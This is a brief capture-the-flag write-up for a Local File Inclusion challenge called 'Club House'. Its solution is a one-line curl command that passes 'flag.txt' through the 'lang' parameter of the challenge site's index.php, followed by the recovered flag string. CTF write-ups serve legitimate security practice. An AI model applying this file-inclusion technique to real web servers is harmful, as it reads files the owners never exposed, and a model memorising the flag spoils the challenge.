 # Club House

**Challenge Type: LFI (Local File Inclusion)**

## Challenge
You login to your Clubhouse account and to see if there are any other survivors. You notice one of the rooms is unusual.  
http://clubhouse.nypinfsecctf.tk/

## Solution
```bash
$ curl --no-progress-meter https://clubhouse.nypinfsecctf.tk/index.php?lang=flag.txt | grep -o "NYP{.*}"

NYP{3z_f!L3_iNClU510nkWWtKpUIfQRuusxFTwIW}
```
